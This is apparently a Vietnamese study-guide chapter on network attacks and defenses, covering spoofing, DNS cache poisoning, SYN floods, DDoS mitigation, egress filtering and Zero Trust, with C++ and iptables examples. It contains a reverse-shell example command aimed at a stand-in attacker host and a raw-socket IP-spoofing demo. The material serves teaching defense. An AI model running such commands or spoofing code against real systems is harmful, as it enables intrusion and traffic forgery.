




# 9.3. Network Attacks, Mitigation and Zero Trust Networking (Các Cuộc tấn công Mạng, Phòng vệ & Mạng Không Tin cậy)

## Tổng quan về Môi trường Mạng Thù địch & Zero Trust
Mọi gói tin di chuyển trên các hạ tầng mạng từ tầng cục bộ (Layer 2 - Data Link) cho đến mạng Internet toàn cầu (Layer 3/4) đều phải đối mặt với các nguy cơ bị can thiệp, nghe lén và làm giả mạo: Từ việc lừa gạt bảng định địa chỉ MAC (**ARP Spoofing**), đầu độc hệ thống phân giải tên miền (**DNS Cache Poisoning**), tấn công làm tràn hàng đợi bán kết nối (**TCP SYN Flood**), cho đến các đợt tấn công từ chối dịch vụ phân tán quy mô hàng Terabits/giây (**Volumetric DDoS**).

Để tồn tại trong một môi trường mà hạ tầng mạng luôn được coi là đã bị thỏa hiệp, kỹ thuật mạng hiện đại chuyển dịch hoàn toàn từ mô hình chu vi sang **Mạng Không Tin cậy (Zero Trust Networking)** kết hợp các cơ chế kiểm soát lưu lượng nghiêm ngặt (**Ingress & Egress Filtering**).



---

## 2. Chi tiết từng Keyword (Under-the-Hood Deep Dive)

### 1. Spoofing Attacks: ARP, IP, DNS Spoofing & Cache Poisoning

#### 1. Khái niệm bản chất (What & Why)
- **ARP Spoofing (Đầu độc Giao thức Phân giải Địa chỉ - Layer 2)**:
  Giao thức ARP (Address Resolution Protocol) vốn dĩ hoàn toàn không có cơ chế xác thực. Kẻ tấn công trên cùng mạng cục bộ (LAN / WiFi) liên tục gửi các gói tin ARP Reply giả mạo tới Router và Nạn nhân: "Địa chỉ IP của Router chính là địa chỉ MAC của tôi!".
  - *Hậu quả*: Toàn bộ lưu lượng Internet của nạn nhân sẽ bị chuyển hướng qua máy tính của hacker trước khi đến router, cho phép hacker thực hiện tấn công **Man-in-the-Middle (MITM)** và nghe lén dữ liệu (**Packet Sniffing**).
- **IP Spoofing (Giả mạo Địa chỉ IP Nguồn - Layer 3)**:
  Kẻ tấn công sửa đổi trường `Source IP Address` trong Header của gói tin IP gửi đi thành địa chỉ IP của một nạn nhân khác.
  - Thường dùng trong các cuộc tấn công **Khuếch đại DDoS (Amplification Attacks như DNS/NTP Reflection)**: Kẻ tấn công gửi 1 gói tin nhỏ tới các máy chủ phản hồi công cộng nhưng giả mạo IP nguồn của nạn nhân; hàng ngàn server phản hồi gói tin lớn gấp 50 lần dội thẳng vào máy nạn nhân!
- **DNS Spoofing & DNS Cache Poisoning (Đầu độc Bộ nhớ đệm DNS)**:
  Kẻ tấn công lừa máy chủ phân giải DNS (DNS Recursive Resolver) lưu trữ các bản ghi IP giả mạo (ví dụ: gán domain `google.com` về địa chỉ IP `123.45.67.89` của hacker).
  - Khi người dùng trong toàn bộ khu vực truy vấn `google.com`, họ sẽ được dẫn thẳng tới website lừa đảo mà thanh địa chỉ trình duyệt vẫn hiển thị đúng tên miền chính thức!

#### 2. Cơ chế hoạt động sâu (Under the hood / Hardcore Internals)
- **Giải phẫu Cuộc tấn công Kaminsky Cache Poisoning (2008)**:
  Trước đây, câu truy vấn DNS sử dụng cổng UDP cố định 53 và có trường `Transaction ID` (TXID) chỉ dài 16-bit ($2^{16} = 65,536$ khả năng):
  1. Kẻ tấn công yêu cầu DNS Resolver phân giải một tên miền con ngẫu nhiên: `fake12345.bank.com`.
  2. Trong khi Resolver đang gửi truy vấn tới Root Name Server, kẻ tấn công lập tức "bắn phá" hàng ngàn gói tin DNS Response giả mạo với các giá trị TXID ngẫu nhiên khác nhau vào Resolver.
  3. Nếu một trong các gói tin giả mạo khớp được giá trị TXID trước khi gói tin thật từ Name Server quay về, Resolver sẽ chấp nhận bản ghi giả mạo và lưu vào Cache trong 24 giờ!
- **Các Giải pháp Phòng vệ Cốt lõi**:
  - **Source Port Randomization (Ngẫu nhiên hóa Cổng Nguồn UDP)**: Sử dụng cổng UDP ngẫu nhiên từ 1024 đến 65535, nhân không gian entropy lên $65,536 \times 64,512 \approx 4.2 \times 10^9$ khả năng (Bất khả thi để vét cạn).
  - **DNSSEC (DNS Security Extensions)**: Ký số mật mã học bằng cặp khóa bất đối xứng trên toàn bộ các bản ghi DNS (RRSET). Bất kỳ bản ghi nào bị sửa đổi sẽ bị từ chối do sai lệch chữ ký số.
  - **DoH / DoT (DNS over HTTPS / DNS over TLS)**: Mã hóa toàn bộ kênh truy vấn DNS từ máy khách tới Resolver qua cổng 443 hoặc 853, chặn đứng hoàn toàn việc nghe lén của nhà mạng ISP hoặc hacker trên WiFi.

#### 3. Sơ đồ minh họa (Mô hình Tấn công ARP Spoofing Chiếm đoạt Kênh Dữ liệu L2)


#### 4. Code ví dụ thực chiến (C++ Raw Socket IP Spoofing Demonstration Engine)
```cpp
#include <iostream>
#include <cstring>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <netinet/tcp.h>
#include <arpa/inet.h>
#include <unistd.h>

// Hàm tính Checksum tiêu chuẩn cho IP/TCP Header
uint16_t calculateInternetChecksum(uint16_t *addr, int len) {
    int count = len;
    uint32_t sum = 0;
    while (count > 1) {
        sum += *addr++;
        count -= 2;
    }
    if (count > 0) {
        sum += *(uint8_t *)addr;
    }
    while (sum >> 16) {
        sum = (sum & 0xffff) + (sum >> 16);
    }
    return ~sum;
}

int main() {
    // 1. Tạo Raw Socket ở tầng Layer 3 (Yêu cầu quyền root / CAP_NET_RAW)
    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
    if (sock < 0) {
        std::cerr << "Root privilege required for raw socket!\n";
        return 1;
    }

    // Báo cho Kernel biết ứng dụng tự xây dựng IP Header (IP_HDRINCL)
    int one = 1;
    setsockopt(sock, IPPROTO_IP, IP_HDRINCL, &one, sizeof(one));

    char packetBuffer[4096] = {0};
    struct iphdr *iph = (struct iphdr *)packetBuffer;

    // 2. Điền thông tin IP Header - MINH HỌA GIẢ MẠO ĐỊA CHỈ NGUỒN (IP SPOOFING)
    iph->ihl = 5;
    iph->version = 4;
    iph->tos = 0;
    iph->tot_len = htons(sizeof(struct iphdr) + sizeof(struct tcphdr));
    iph->id = htons(54321);
    iph->frag_off = 0;
    iph->ttl = 64;
    iph->protocol = IPPROTO_TCP;
    
    // ĐỊA CHỈ IP NGUỒN BỊ GIẢ MẠO (Spoofed Source IP)
    iph->saddr = inet_addr("8.8.8.8"); // Giả làm DNS của Google!
    iph->daddr = inet_addr("127.0.0.1"); // Đích đến
    iph->check = calculateInternetChecksum((uint16_t *)packetBuffer, iph->ihl * 4);

    std::cout << "[Security Lab] Raw packet constructed with SPOOFED source IP: 8.8.8.8\n";
    close(sock);
    return 0;
}
```

#### 5. Ưu / Nhược điểm, Pitfalls & Anti-patterns
- **Pitfall**: Sử dụng DNS công cộng truyền thống (Plaintext UDP Port 53) trong ứng dụng di động khi kết nối vào mạng công cộng. Bất kỳ quán cà phê nào cũng có thể cấu hình router để chặn và chuyển hướng DNS sang server quảng cáo độc hại.
- **Anti-pattern**: Không bật cơ chế **Dynamic ARP Inspection (DAI)** và **DHCP Snooping** trên hệ thống Switch mạng doanh nghiệp.

#### 6. Ứng dụng thực tế trong Backend / Systems
Bắt buộc cấu hình **DNSSEC Validation** trên các Resolver nội bộ và áp dụng quy chuẩn chống IP Spoofing **BCP 38 (Network Ingress Filtering)** trên toàn bộ các router biên của nhà mạng viễn thông.

---

### 2. TCP SYN Flood, Port Scanning & DDoS Mitigation

#### 1. Khái niệm bản chất (What & Why)
- **TCP SYN Flood**: Cuộc tấn công từ chối dịch vụ (DoS) kinh điển ở Tầng Giao vận (Layer 4).
  - *Cơ chế*: Quá trình bắt tay 3 bước TCP (Three-Way Handshake) gồm: `Client SYN` $\to$ `Server SYN-ACK` $\to$ `Client ACK`.
  - Kẻ tấn công gửi hàng triệu gói tin `SYN` với các địa chỉ IP nguồn giả mạo (Spoofed IP) nhưng **cố tình không bao giờ gửi lại gói tin `ACK` cuối cùng**.
  - Server dành một ô nhớ trong **Hàng đợi Bán kết nối (SYN Backlog Queue)** để chờ gói tin ACK trong vô vọng cho đến khi timeout. Hàng nghìn kết nối dở dang này làm tràn bộ nhớ và kiệt quệ tài nguyên socket của Kernel, khiến server từ chối kết nối của toàn bộ người dùng hợp pháp!
- **Port Scanning & Network Reconnaissance (Do thám & Quét cổng Mạng)**:
  - Hành động sử dụng các công cụ như **Nmap, Masscan, ZMap** để thăm dò xem máy chủ mục tiêu đang mở những cổng TCP/UDP nào và đang chạy những dịch vụ phiên bản gì (Service Fingerprinting).
  - *SYN Stealth Scan (`nmap -sS`)*: Kẻ tấn công gửi gói tin SYN; nếu server trả về SYN-ACK $\implies$ Cổng đang MỞ. Sau đó hacker lập tức gửi gói tin `RST` (Reset) để ngắt kết nối mà không hoàn thành bắt tay, nhằm né tránh việc bị ghi log trong các ứng dụng cũ.
- **DDoS Mitigation (Giảm thiểu DDoS)**: Chiến lược phân tán và dập tắt các cuộc tấn công từ chối dịch vụ thông qua:
  - **Anycast BGP Routing**: Phân bổ cùng một địa chỉ IP công khai trên hàng trăm Datacenter trên toàn cầu. Một đợt tấn công 1 Tbps sẽ bị chia nhỏ thành các luồng 10 Gbps dội vào các trung tâm làm sạch (Scrubbing Centers) cục bộ và bị lọc sạch tại chỗ.
  - **Rate Limiting & BGP Blackholing**: Hủy bỏ lưu lượng rác ở tầng mạng viễn thông.

#### 2. Cơ chế hoạt động sâu (Under the hood / Hardcore Internals)
- **Thuật toán Cứu tinh: TCP SYN Cookies trong Linux Kernel**:
  Làm thế nào Linux Kernel có thể chống đỡ hàng triệu gói SYN mỗi giây mà không làm tràn RAM?
  Khi hàng đợi SYN Backlog bị đầy, Kernel tự động kích hoạt tính năng **SYN Cookies (`net.ipv4.tcp_syncookies = 1`)**:
  - Kernel **KHÔNG LƯU BẤT KỲ Ô NHỚ NÀO TRONG BACKLOG**!
  - Thay vào đó, Kernel mã hóa toàn bộ thông tin kết nối vào chính giá trị số thứ tự ban đầu của Server (**Initial Sequence Number - ISN**) trong gói tin SYN-ACK gửi đi:
    $$\text{ISN} = \text{Hash}\Big(\text{SrcIP}, \text{SrcPort}, \text{DstIP}, \text{DstPort}, \text{SecretKey}\Big) + \text{MSS Index} + \text{Timestamp}$$
  - Nếu là kẻ tấn công (không gửi ACK) $\implies$ Server không tốn một byte RAM nào!
  - Nếu là người dùng hợp pháp gửi lại gói tin `ACK`: Gói tin ACK sẽ chứa giá trị `Acknowledgment Number = ISN + 1`. Kernel chỉ cần lấy số này trừ đi 1, kiểm tra lại hàm băm toán học: Nếu khớp $\implies$ Kernel giải mã ra thông tin kết nối và cấp phát Socket đầy đủ! Đây là một hiện thực toán học hoàn hảo của triết lý Stateless Verification.

#### 3. Sơ đồ minh họa (Cơ chế Phòng vệ SYN Flood Bằng Linux SYN Cookies)


#### 4. Code ví dụ thực chiến (C++ Kernel Tuning Script Executor for Anti-DDoS)
```cpp
#include <iostream>
#include <fstream>
#include <string>

// Minh họa việc tối ưu hóa các tham số TCP Stack của nhân Linux để chống DoS
class LinuxNetworkHardener {
public:
    static bool writeKernelParam(const std::string& path, const std::string& value) {
        std::ofstream file(path);
        if (!file.is_open()) {
            std::cerr << "Failed to open kernel param: " << path << " (Require root)\n";
            return false;
        }
        file << value;
        file.close();
        std::cout << "[Kernel Tuned] " << path << " = " << value << "\n";
        return true;
    }

    static void applyAntiDdosTuning() {
        std::cout << "Applying Hardened Network Kernel Parameters...\n";
        // 1. Kích hoạt TCP SYN Cookies (Bảo vệ tuyệt đối chống SYN Flood)
        writeKernelParam("/proc/sys/net/ipv4/tcp_syncookies", "1");

        // 2. Tăng dung lượng hàng đợi SYN Backlog
        writeKernelParam("/proc/sys/net/ipv4/tcp_max_syn_backlog", "4096");

        // 3. Giảm số lần gửi lại SYN-ACK đối với các kết nối dở dang (Từ 5 lần xuống 2 lần)
        writeKernelParam("/proc/sys/net/ipv4/tcp_synack_retries", "2");

        // 4. Bật bảo vệ chống IP Spoofing (Reverse Path Filtering BCP 38)
        writeKernelParam("/proc/sys/net/ipv4/conf/all/rp_filter", "1");
    }
};

int main() {
    // Trong thực tế, các lệnh này được cấu hình trong /etc/sysctl.conf
    LinuxNetworkHardener::applyAntiDdosTuning();
    return 0;
}
```

#### 5. Ưu / Nhược điểm, Pitfalls & Anti-patterns
- **Pitfall**: Đặt giá trị `tcp_syncookies = 0` trên các máy chủ có tải cao để "tiết kiệm CPU". Khi gặp tấn công SYN Flood, máy chủ sẽ bị sập hoàn toàn chỉ trong vài giây.
- **Anti-pattern**: Cố gắng chống đỡ một cuộc tấn công Volumetric DDoS 500 Gbps bằng một con server tường lửa cục bộ đặt trong Datacenter. Lưu lượng tấn công lớn hơn băng thông vật lý của đường cáp quang nhà mạng sẽ làm nghẽn toàn bộ cổng vào của Datacenter trước khi gói tin chạm tới server của bạn (Bắt buộc phải dùng **Cloud DDoS Scrubbing như Cloudflare Magic Transit hoặc AWS Shield Advanced**).

#### 6. Ứng dụng thực tế trong Backend / Systems
Tiêu chuẩn cấu hình hạt nhân Linux trên toàn bộ các cụm máy chủ phân tán của Google, Meta, Cloudflare và Netflix.

---

### 3. Ingress/Egress Filtering & Zero Trust Networking

#### 1. Khái niệm bản chất (What & Why)
- **Ingress Filtering (Lọc Lưu lượng Đầu vào)**: Quy trình kiểm tra các gói tin mạng đi từ bên ngoài vào trong hệ thống.
  - Áp dụng chuẩn **BCP 38 (Best Current Practice 38 - RFC 2827)**: Nếu một router nhận được một gói tin có địa chỉ IP nguồn thuộc dải mạng nội bộ riêng tư (như `10.0.0.0/8` hoặc `127.0.0.1`) đến từ cổng kết nối Internet công cộng $\implies$ Gói tin đó **chắc chắn là IP Spoofing giả mạo và phải bị tiêu hủy ngay lập tức**!
- **Egress Filtering (Lọc Lưu lượng Đầu ra)**: Kiểm soát nghiêm ngặt các kết nối mạng **từ bên trong hệ thống đi ra ngoài Internet**.
  - *Tại sao Egress Filtering là Cực kỳ Quan trọng?*: Khi kẻ tấn công khai thác thành công một lỗi RCE trên máy chủ backend, hành động đầu tiên của chúng là: Gọi lệnh mở **Reverse Shell** kết nối ngược về máy chủ của hacker (`nc -e /bin/sh attacker.com 4444`) hoặc tải mã độc độc hại từ ngoài về. Nếu server được cấu hình Egress Filtering chỉ cho phép kết nối ra cổng 443 tới các tên miền API đối tác cụ thể, con Reverse Shell của hacker sẽ bị chặn đứng hoàn toàn!
- **Zero Trust Networking (Mạng Không Tin cậy)**: Kiến trúc an ninh mạng hiện đại xóa bỏ hoàn toàn khái niệm "Vùng mạng an toàn". Mọi thiết bị, người dùng và dịch vụ – dù đang cắm dây mạng bên trong tòa nhà trụ sở công ty – đều bị đối xử như đang ngồi ở một quán cà phê công cộng:
  - **Mọi kết nối đều phải được mã hóa (Bắt buộc mTLS 100%)**.
  - **Mọi yêu cầu đều phải được xác thực danh tính liên tục (Continuous Verification)**.
  - **Không cấp quyền dựa trên vị trí mạng (No Network Locality Trust)**.

#### 2. Cơ chế hoạt động sâu (Under the hood / Hardcore Internals)
- **Chuyển dịch Mô hình: Từ VPN Chu vi sang BeyondCorp / Zero Trust Network Access (ZTNA)**:
  - *Mô hình VPN Cổ điển*: Nhân viên đăng nhập VPN thành công $\implies$ Có toàn quyền truy cập vào toàn bộ dải mạng phẳng `10.0.0.0/16`. Hacker chỉ cần chiếm một máy tính nhân viên là có thể quét cổng và lây nhiễm toàn bộ hệ thống.
  - *Mô hình Zero Trust (Google BeyondCorp / Cloudflare Access)*: Không còn VPN. Mọi ứng dụng nội bộ (như Jira, Git, Database Console) đều được đặt sau một **Identity-Aware Proxy (IAP)**. Khi nhân viên truy cập một URL:
    1. Kiểm tra Chứng chỉ Thiết bị phần cứng (Managed Device Certificate trong TPM).
    2. Kiểm tra Danh tính người dùng qua IdP (SSO + MFA).
    3. Đánh giá Điểm rủi ro thiết bị (Đã cài bản vá mới nhất chưa).
    4. Chỉ cấp quyền truy cập vào **chính xác một ứng dụng duy nhất đó**, hoàn toàn không cấp quyền truy cập vào mạng hạ tầng bên dưới!

#### 3. Sơ đồ minh họa (Mô hình Mạng Chu vi Cổ điển vs Kiến trúc Zero Trust BeyondCorp)


#### 4. Code ví dụ thực chiến (Bash/Iptables Strict Egress Filtering Ruleset)
```bash
#!/bin/bash
# Thiết lập chính sách Egress Filtering nghiêm ngặt cho Production Server bằng Iptables

# 1. Đặt chính sách mặc định: DROP toàn bộ lưu lượng (Fail-Closed)
iptables -P INPUT DROP
iptables -P FORWARD DROP
iptables -P OUTPUT DROP

# 2. Cho phép lưu lượng Loopback nội bộ tiến trình
iptables -A INPUT -i lo -j ACCEPT
iptables -A OUTPUT -o lo -j ACCEPT

# 3. Cho phép các kết nối đã thiết lập từ trước (Stateful ESTABLISHED)
iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
iptables -A OUTPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT

# 4. INGRESS: Chỉ mở duy nhất cổng HTTPS 443 cho khách hàng truy cập
iptables -A INPUT -p tcp --dport 443 -m conntrack --ctstate NEW -j ACCEPT

# 5. EGRESS FILTERING CỰC KỲ QUAN TRỌNG:
# Chỉ cho phép server kết nối ra ngoài cổng DNS (53 UDP) và HTTPS (443 TCP) để gọi API bên thứ ba
iptables -A OUTPUT -p udp --dport 53 -m conntrack --ctstate NEW -j ACCEPT
iptables -A OUTPUT -p tcp --dport 443 -m conntrack --ctstate NEW -j ACCEPT

# CHẶN TOÀN BỘ CÁC CỔNG KHÁC (Chặn Reverse Shell ra cổng 4444, chặn kết nối IRC, chặn botnet C2!)
echo "[Firewall Setup] Strict Ingress and Egress Filtering successfully enforced."
```

#### 5. Ưu / Nhược điểm, Pitfalls & Anti-patterns
- **Pitfall**: Mở toang chiều Egress (`OUTPUT ACCEPT`) cho toàn bộ máy chủ backend. Khi ứng dụng dính một lỗi Command Injection nhỏ, kẻ tấn công có thể dễ dàng tải công cụ khai thác từ Internet về máy chủ.
- **Anti-pattern**: Đặt trọn niềm tin vào địa chỉ IP nội bộ để phân quyền (ví dụ: `if (req.ip.startsWith('10.0.')) return allowAllAccess()`). Đây là sai lầm chết người vi phạm trực tiếp nguyên tắc Zero Trust.

#### 6. Ứng dụng thực tế trong Backend / Systems
Mô hình **Google BeyondCorp**, Cloudflare Zero Trust, Tailscale / WireGuard Access Controls, và kiến trúc mạng Kubernetes Service Mesh mTLS.
